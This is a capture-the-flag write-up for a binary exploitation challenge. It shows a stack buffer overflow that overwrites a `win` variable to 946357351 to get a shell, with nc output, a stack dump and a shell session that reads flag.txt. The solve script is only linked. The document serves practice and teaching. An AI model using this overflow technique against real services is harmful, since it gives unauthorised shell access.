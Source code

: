 # Arturo Brachetti - Points: 50

**Category**: Binary Exploitation

**Description**: Connect to server with nc challenge.acictf.com 28923. Exploit
the service. Read the contents of flag.txt on the server. You can find the
source code here

**Hints**:
- Have you heard of buffer overflows?
- Change the value of win to get a shell

## Solution

Connecting to the provided service, it asks for input and dumps the stack. We
can see that our input is copied into a stack buffer, and we need to set `win`
to a special value to solve the challenge.

```
$ nc challenge.acictf.com 28923
You need to set win to 38684467
Enter your string: aaaaaaaaaaaaaaaa
0xffda023c: 08048705 (esp)
0xffda0238: ffda0298
0xffda023c: 08048705
0xffda0240: ffda0250
0xffda0244: 00000017
0xffda0248: ffda02a0
0xffda024c: f762f6bd
0xffda0250: 61616161
0xffda0254: 61616161
0xffda0258: 61616161
0xffda025c: 61616161
0xffda0260: ffda0300
0xffda0264: 0000047e
0xffda0268: 0000047e
0xffda026c: f7682330
0xffda0270: f77ab7eb
0xffda0274: 00000000
0xffda0278: f7782000
0xffda027c: ffda0314
0xffda0280: ffda0328
0xffda0284: f77b1ff0
0xffda0288: 00000001
0xffda028c: f7682300
0xffda0290: 0000047e
0xffda0294: f7682306
0xffda0298: ffda0328
0xffda029c: ffda0328 (ebp)
0xffda02a0: 08048815 (ret)
0xffda02a4: 00000000 (win)
win value (hex)  = 0
Sorry, you lose.
```

A quick check of the provided [source code](arturo.c) shows that if the `win`
parameter is set to 946357351, the program will drop us into a shell. A short
pwntools [script](solve.py) will yield the flag.`

```
$ ./solve.py
[+] Opening connection to challenge.acictf.com on port 28923: Done
[*] Switching to interactive mode
$ id
uid=1150(arturo-brachetti_2) gid=1151(arturo-brachetti_2)
groups=1151(arturo-brachetti_2)
$ ls -l
total 16
-rwxr-sr-x 1 hacksports arturo-brachetti_2 7808 Nov 30 15:33 arturo
-r--r----- 1 hacksports arturo-brachetti_2   54 Nov 30 15:33 flag.txt
-rwxr-sr-x 1 hacksports arturo-brachetti_2  121 Nov 30 15:33 xinet_startup.sh
$ cat flag.txt
ACI{remote_code_execution_is_best_execution_7ced1003}
```
